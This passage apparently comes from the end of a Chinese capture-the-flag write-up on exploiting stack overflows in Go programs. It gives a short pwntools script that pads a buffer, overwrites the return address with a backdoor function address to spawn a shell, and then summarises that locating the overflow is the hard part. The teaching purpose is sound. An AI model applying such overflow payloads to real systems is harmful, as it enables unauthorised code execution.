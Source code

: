```python
# dbg()
backdoor=0x4A0AF6
payload = b'\x00'*0x1d0+p64(backdoor)

p.sendlineafter("Input your magic message :",payload)
p.sendline('sh')

p.interactive()

```

一些总结
====

通过上面三个例题，对go的栈溢出肯定有一些感受。**我个人认为的难点还是找到溢出点，能够覆盖到返回地址让程序崩溃基本已经成功了，大部分时间还是在寻找漏洞点,go的反汇编一般都不是很好看，所以要有一定的猜测和经验，然后通过静态分析和动态分析相结合的方式，才能更好地找到漏洞点并进行利用**